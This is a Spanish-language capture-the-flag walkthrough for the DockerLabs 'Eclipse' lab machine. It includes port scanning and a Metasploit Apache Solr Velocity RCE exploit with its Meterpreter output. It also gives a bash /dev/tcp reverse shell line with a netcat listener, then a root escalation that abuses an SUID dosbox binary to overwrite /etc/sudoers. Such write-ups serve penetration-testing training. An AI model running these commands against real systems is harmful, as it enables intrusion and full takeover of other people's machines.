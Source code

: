 ```yaml
---
icon: flag
---
```


# Eclipse DockerLabs (intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip eclipse.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh eclipse.tar
```

Info:

```
stamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 12:25 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000024s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Epic Battle
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://express.dl:8983/solr/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.53 seconds
```

Si vamos al puerto `8983` vemos que nos carga un software llamado `Solr` por lo que vamos a buscar si contiene alguna vulnerabilidad dicho software.

Antes vamos a ver en que version esta.

```shell
http://172.17.0.2:8983 [302 Found] Country[RESERVED][ZZ], IP[172.17.0.2], RedirectLocation[http://172.17.0.2:8983/solr/]
http://172.17.0.2:8983/solr/ [200 OK] Country[RESERVED][ZZ], IP[172.17.0.2], JQuery[2.1.3], Script, Title[Solr Admin], X-Frame-Options[DENY], X-UA-Compatible[IE=9]
```

No nos da mucha informacion, pero vamos a ver en `metasploit` que vemos.

## Escalate user ninhack

### Metasploit

```shell
msfconsole -q
```

Si buscamos por el software:

```shell
search solr
```

Info:

```
Matching Modules
================

   #   Name                                            Disclosure Date  Rank       Check  Description
   -   ----                                            ---------------  ----       -----  -----------
   0   exploit/linux/http/apache_solr_backup_restore   2024-02-24       excellent  Yes    Apache Solr Backup/Restore APIs RCE
   1   exploit/multi/http/solr_velocity_rce            2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   2     \_ target: Java (in-memory)                   .                .          .      .
   3     \_ target: Unix (in-memory)                   .                .          .      .
   4     \_ target: Linux (dropper)                    .                .          .      .
   5     \_ target: x86/x64 Windows PowerShell         .                .          .      .
   6     \_ target: x86/x64 Windows CmdStager          .                .          .      .
   7     \_ target: Windows Exec                       .                .          .      .
   8   auxiliary/scanner/http/log4shell_scanner        2021-12-09       normal     No     Log4Shell HTTP Scanner
   9     \_ AKA: Log4Shell                             .                .          .      .
   10    \_ AKA: LogJam                                .                .          .      .
   11  exploit/linux/http/trendmicro_websecurity_exec  2020-06-10       excellent  Yes    Trend Micro Web Security (Virtual Appliance) Remote Code Execution


Interact with a module by name or index. For example info 11, use 11 or use exploit/linux/http/trendmicro_websecurity_exec
```

Vemos que el que mas nos interesa es el numero `1` que seria `multi/http/solr_velocity_rce` y lo configuramos de la siguiente forma:

```shell
set LPORT <PORT>
set LHOST <IP_HOST>
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.120.128:7777 
[*] 172.17.0.2:8983: Authentication not required
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 6.8.11-amd64
[*] Found core(s): 0xDojo
[+] Found Velocity Response Writer in use by core '0xDojo'
[!] params.resource.loader.enabled for core '0xDojo' is set to false.
[*] Targeting core '0xDojo'
[*] params.resource.loader.enabled is false for '0xDojo', trying to update it...
[+] params.resource.loader.enabled is true for core '0xDojo'
[*] Using URL: http://192.168.120.128:8080/WI2zfuBr7/
[*] Sending stage (57971 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.120.128:7777 -> 172.17.0.2:58324) at 2025-01-10 12:35:15 -0500
[*] Server stopped.

meterpreter > getuid
Server username: ninhack
```

## Escalate Privileges

Y vemos que funciona, por lo que haremos lo siguiente, vamos a ver si tiene permisos `SUID` importantes para dicho usuario.

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2107068     52 -rwsr-xr--   1 root     messagebus    51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  2097398     52 -rwsr-xr-x   1 root     root          52880 Mar 23  2023 /usr/bin/chsh
  2097522     48 -rwsr-xr-x   1 root     root          48896 Mar 23  2023 /usr/bin/newgrp
  2097533     68 -rwsr-xr-x   1 root     root          68248 Mar 23  2023 /usr/bin/passwd
  2097585     72 -rwsr-xr-x   1 root     root          72000 Mar 28  2024 /usr/bin/su
  2097459     88 -rwsr-xr-x   1 root     root          88496 Mar 23  2023 /usr/bin/gpasswd
  2097517     60 -rwsr-xr-x   1 root     root          59704 Mar 28  2024 /usr/bin/mount
  2097609     36 -rwsr-xr-x   1 root     root          35128 Mar 28  2024 /usr/bin/umount
  2097392     64 -rwsr-xr-x   1 root     root          62672 Mar 23  2023 /usr/bin/chfn
  2106566   2504 -rwsr-xr-x   1 root     root        2560896 Sep 19  2022 /usr/bin/dosbox
  2106676    276 -rwsr-xr-x   1 root     root         281624 Jun 27  2023 /usr/bin/sudo
```

Vemos un binario interesante que es el siguiente:

Como estamos en `meterpreter` no nos va a dejar abrir el `nano` por lo que haremos lo siguiente:

```shell
shell
bash -c "sh -i >& /dev/tcp/<IP>/<IP> 0>&1"
```

Estaremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y si lo ejecutamos y nos vamos a la escucha obtendremos una shell, por lo que la sanitizaremos.

Sanitizacion de la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Y ahora haremos lo siguiente:

```shell
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

Y con esto seremos `root`.
